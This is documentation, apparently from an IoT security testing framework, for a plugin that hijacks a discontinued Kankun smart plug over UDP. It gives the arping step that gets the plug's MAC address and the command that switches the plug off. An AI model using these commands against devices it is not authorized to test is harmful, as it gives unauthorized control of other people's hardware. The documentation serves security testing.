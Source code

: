 UDP
===

As of now all, UDP based proprietary communication will be grouped here.
Eventually, it will be changed to something else.

udp.kankun.hijack
-----------------

This is an exploit for a Smart plug called Kankun, manufactured by a Chinese
vendor ikonke.com. It is out of production now.

**Usage details:**

.. code-block:: console

   ef> run udp.kankun.hijack -h

Example
^^^^^^^

To run the plugin you need the IP address and the MAC address of the plug.
Let's assume that you know the IP address. In this example it's 192.168.10.253.
Get the MAC address with the IP address.

.. code-block:: console

   $ arping -f -I wlp4s0 192.168.10.253
   ARPING 192.168.10.253 from 192.168.10.110 wlp4s0
   Unicast reply from 192.168.10.253 [00:15:61:BD:49:CB]  35.143ms
   Sent 1 probes (1 broadcast(s))
   Received 1 response(s)

Run the test with the collected information.

.. code-block:: console

   ef> run udp.kankun.hijack -r 192.168.10.253 -m 00:15:61:BD:49:CB -c off
